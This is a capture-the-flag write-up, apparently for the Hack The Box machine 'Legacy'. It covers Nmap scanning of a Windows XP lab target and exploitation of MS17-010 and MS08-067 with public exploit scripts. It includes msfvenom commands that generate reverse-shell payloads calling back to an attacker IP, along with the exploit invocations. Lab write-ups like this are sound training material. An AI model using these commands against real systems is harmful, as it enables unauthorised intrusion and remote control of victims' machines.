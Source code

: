 # Legacy

<figure><img src="../../.gitbook/assets/image (252).png" alt=""><figcaption><p>Fig 1. Nmap full port scan</p></figcaption></figure>

Running the full port scan on the target system, ports 135, 139 and 445 were open.&#x20;

<figure><img src="../../.gitbook/assets/image (242).png" alt=""><figcaption><p>Fig 2. Nmap Aggressive scan</p></figcaption></figure>

Next, I ran an aggressive Nmap scan using the `-A` flag. From the OS guesses, it is most likely running Microsoft Windows XP SP3.

<figure><img src="../../.gitbook/assets/image (241).png" alt=""><figcaption><p>Fig 3. Nmap vuln scanning</p></figcaption></figure>

Using the arguments `--script vuln`, I found the target to be vulnerable to `MS08-067` and `MS17-010`.&#x20;

### MS17-010 (Eternal Blue)

1. Clone the repository containing the exploit for MS17-010 using the command `git clone https://github.com/worawit/MS17-010`
2.  Generate a reverse shell (`shell.exe`) using&#x20;

    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -f exe > shell.exe
    ```

<figure><img src="../../.gitbook/assets/image (213).png" alt=""><figcaption><p>Fig 4. Generate shell.exe</p></figcaption></figure>

3. Edit the following section inside the `zzz_exploit.py` file.

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption><p>Fig 5. Before editing <code>zzz_exploit.py</code> file</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (220).png" alt=""><figcaption><p>Fig 6. After editing <code>zzz_exploit.py</code> file</p></figcaption></figure>

4. Setup Netcat listener.

<figure><img src="../../.gitbook/assets/rev shell.png" alt=""><figcaption><p>Fig 7. Setup a Netcat listener</p></figcaption></figure>

4. Run the script using the command `python2.7 zzz_exploit.py 10.10.10.4`

<figure><img src="../../.gitbook/assets/image (257).png" alt=""><figcaption><p>Fig 8. Running exploit.py file</p></figcaption></figure>

5. &#x20;A reverse shell is obtained on the Netcat listener.

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption><p>Fig 9. Obtained a reverse shell </p></figcaption></figure>

6. To find the locations of the `user.txt` and the `root.txt` files, use the following commands.

```shell
cd \
dir /s user.txt
dir /s root.txt
```

<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption><p>Fig 10. Obtaining r the flags</p></figcaption></figure>

### MS08-067

1. Clone the exploit repository using the command `git clone https://github.com/andyacer/ms08_067.git`.&#x20;
2. Use the command `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows` to generate a reverse shell shellcode.

<figure><img src="../../.gitbook/assets/image (292).png" alt=""><figcaption><p>Fig 11. Generating reverse shell shellcode</p></figcaption></figure>

3. Running the command `python2.7 ms08_067_2018.py` shows the OS number for Windows XP SP3 English (NX) as 6.

<figure><img src="../../.gitbook/assets/image (287).png" alt=""><figcaption><p>Fig 12. Help page for the script</p></figcaption></figure>

4. Running the command `python2.7 ms08_067_2018.py 10.10.10.4 6 445` , I managed to obtain a reverse shell with SYSTEM privileges.

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption><p>Fig 13. Running the exploit script</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption><p>Fig 14. Obtained reverse shell</p></figcaption></figure>

